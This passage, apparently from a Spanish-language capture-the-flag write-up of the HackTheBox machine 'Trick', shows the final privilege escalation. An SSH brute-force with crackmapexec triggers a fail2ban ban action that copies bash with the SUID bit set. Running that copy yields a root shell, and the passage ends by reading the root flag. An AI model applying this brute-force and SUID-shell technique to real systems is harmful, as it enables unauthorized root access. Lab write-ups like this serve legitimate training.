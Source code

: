 Ahora reinicio el programa fail2ban:
```
> sudo /etc/init.d/fail2ban restart
```
Y provoco el baneo:
```
> crackmapexec ssh 10.10.11.166 -u guise -p /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
```
![Crackmapexec]({{ 'assets/img/writeups/Trick/crackmapexec.png' | relative_url }}){: .center-image }

Una vez que haya sido baneado saltaran las reglas que establecimos, es decir, el "actionban", recuerda que pusimos esto:  
`cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf`  
En vez de chmod 4777 podrías poner chmod u+s. Esto es para añadir el permiso SUID al ejecutable. Este permiso permite ejecutar el ejecutable como el propietario.
```
> ls -l /tmp/0xdf
-rwsrwxrwx 1 root root 0 mar 20 20:27 0xdf
```
Vemos el ejecutable, ahora solo toca lanzarlo con la opción -p. Esta opción te permite ejecutarlo como el propietario, se podría decir que completa a los permisos SUID.
```
> /tmp/0xdf -p
> whoami
root
> cat /root/root.txt
f0e328b334fbcb96ec**********
```
Y con esto acabo la máquina Trick. Me ha gustado bastante.








